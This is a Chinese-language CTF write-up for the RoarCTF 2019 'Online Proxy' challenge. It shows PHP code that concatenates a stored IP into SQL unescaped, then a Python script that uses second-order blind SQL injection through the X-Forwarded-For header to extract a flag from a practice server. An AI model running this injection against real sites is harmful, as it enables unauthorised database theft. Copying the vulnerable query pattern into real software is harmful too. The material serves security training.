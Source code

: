 ![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211231238168.png)

## [RoarCTF 2019]Online Proxy

题目有点恶心, 感觉还是看源码会清楚一点...

```php
$last_ip = "";
$result = query("select current_ip, last_ip from ip_log where uuid = '".addslashes($uuid)."'");
if(count($result) > 0) {
    if($ip !== $result[0]['current_ip']) {
        $last_ip = $result[0]['current_ip'];

        query("delete from ip_log where uuid='".addslashes($uuid)."'");
    } else {
        $last_ip = $result[0]['last_ip'];
    }
}

query("insert into ip_log values ('".addslashes($uuid)."', '".addslashes($ip)."', '$last_ip');");

die("\n<!-- Debug Info: \n Duration: $time s \n Current Ip: $ip ".($last_ip !== "" ? "\nLast Ip: ".$last_ip : "")." -->");
```

第一次访问得到 current\_ip 并插入数据库, 第二次更改 xff 头访问会将之前的 current\_ip 作为 last\_ip, 然后将 last\_ip 无过滤拼接到 sql 语句, 之后再访问的时候就直接从查询结果中取出 last\_ip 并输出

思路就是第一次构造 xff 头 sql 注入, 第二次更改 ip 访问让 sql 注入的结果插入到数据库, 第三次保持之前的 ip 访问, 网站就会把结果返回出来

脚本如下

```python
import requests
import time

url = 'http://node4.buuoj.cn:26194'

flag = ''

i = 1

cookies = {'track_uuid': 'd9d157df-93ca-47a1-f438-f851d5ae0249'}

while True:

    min = 32
    max = 127

    while min < max:
        time.sleep(0.02)
        mid = (min + max) // 2
        print(chr(mid))

        payload = '1 \' and if(ascii(substr((select group_concat(F4l9_C01uMn) from F4l9_D4t4B45e.F4l9_t4b1e), {},1))>{}, 1, 0) and \'1\'=\'1'.format(i, mid)
        res1 = requests.get(url, headers={'X-Forwarded-For': payload}, cookies=cookies)
        res2 = requests.get(url, headers={'X-Forwarded-For': 'aa'}, cookies=cookies)
        res3 = requests.get(url, headers={'X-Forwarded-For': 'aa'}, cookies=cookies)
        if 'Last Ip: 1' in res3.text:
            min = mid + 1
        else:
            max = mid
    flag += chr(min)
    i += 1
    print('found', flag)
```